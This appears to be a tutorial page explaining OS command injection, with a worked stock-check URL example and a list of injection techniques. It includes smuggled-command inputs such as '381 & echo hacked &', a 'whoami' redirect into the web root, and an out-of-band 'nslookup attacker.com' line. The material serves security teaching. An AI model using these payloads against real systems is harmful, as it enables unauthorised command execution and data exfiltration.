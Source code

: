 # OS Command Injection

## What is OS Command Injection?

**OS Command Injection** (also known as shell injection) is a **critical security vulnerability** that allows an attacker to execute arbitrary operating system commands on the server running a vulnerable application.

This happens when an application dynamically constructs system commands using **user-controlled input** without proper validation or sanitization. Attackers can inject malicious commands, leading to full system compromise, data leaks, or pivoting to other internal network systems.

---

## How OS Command Injection Works

**Example:**

A web application allows checking stock status via URL parameters:

    https://insecure-website.com/stockStatus?productID=381&storeID=29


The server runs a shell command like:

    stockreport.pl 381 29


If no input validation is done, an attacker might inject input like:

    381 & echo hacked &


The command becomes:

    stockreport.pl 381 & echo hacked & 29


This executes three commands:
- The original command (likely failing)
- The injected command: `echo hacked` (returns "hacked")
- The last argument: `29` (treated as a separate command, causing an error)

---

## Common OS Command Injection Techniques

- Using **shell metacharacters** like `;`, `&`, `|`, `||`, `&&`, `$()`, `` ` ``, `{}`, `[]` for command separation.
- **Backticks** `` `command` `` or `$()` for command substitution (Unix-based systems).
- **Injecting delays for detection:**  
  - Example: `ping -c 1 127.0.0.1` in blind injection.
- **Redirecting outputs to files for later retrieval:**  
  - Example: `whoami > /var/www/static/output.txt`
- **Out-of-band data exfiltration (OAST)** via DNS lookups:  
  - Example: `nslookup attacker.com`

---